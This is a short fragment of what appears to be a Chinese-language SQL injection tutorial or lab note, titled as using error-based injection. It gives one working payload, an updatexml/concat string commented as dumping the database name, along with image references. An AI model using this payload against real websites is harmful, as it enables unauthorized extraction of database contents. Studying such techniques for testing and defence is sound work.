 ![](file/image_8U0eltnyM8.png)

#### 使用报错注入

***

```sql
//爆数据库
and updatexml(1,concat(0x7e,database(),0x7e),1) --+
```

![](file/image_Db6YGqJ9sU.png)
